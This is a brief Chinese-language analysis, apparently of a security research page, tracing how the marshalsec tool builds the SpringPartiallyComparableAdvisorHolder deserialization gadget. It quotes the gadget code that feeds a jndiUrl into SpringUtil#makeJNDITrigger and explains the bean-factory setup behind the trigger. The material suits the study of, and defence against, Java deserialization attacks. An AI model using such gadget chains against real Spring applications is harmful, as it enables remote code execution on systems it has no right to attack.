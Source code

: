 <div align=center><img src="./images/9.png"></div>


## SpringPartiallyComparableAdvisorHolder
### 构造分析
 - 先来看看`marshalsec`中给出的`SpringPartiallyComparableAdvisorHolder.java`, 这里将传入的`jndiUrl`传入`SpringUtil#makeJNDITrigger`方法.

```java
public interface SpringPartiallyComparableAdvisorHolder extends Gadget {

    @Primary
    @Args ( minArgs = 1, args = {
        "jndiUrl"
    }, defaultArgs = {
        MarshallerBase.defaultJNDIUrl
    } )
    default Object makePartiallyComparableAdvisorHolder ( UtilFactory uf, String[] args ) throws Exception {
        String jndiUrl = args[ 0 ];
        BeanFactory bf = SpringUtil.makeJNDITrigger(jndiUrl);
        return SpringUtil.makeBeanFactoryTriggerPCAH(uf, jndiUrl, bf);
    }
}
```

 - 跟进`SpringUtil#makeJNDITrigger`方法, 会继续调用`SimpleJndiBeanFactory#setShareableResources`方法, 该方法会将`jndiUrl`转换成一个`list`对象, 然后调用`this.shareableResources.addAll`方法对`shareableResources`的`HashSet`进行`addAll`操作. 接着获取`bf`, 设置`logger`的值为`NoOpLog`实例化对象, 用同样的方式对获取的`bf.getJndiTemplate()`进行操作. 最后返回`bf`的`BeanFactory`实例化对象.
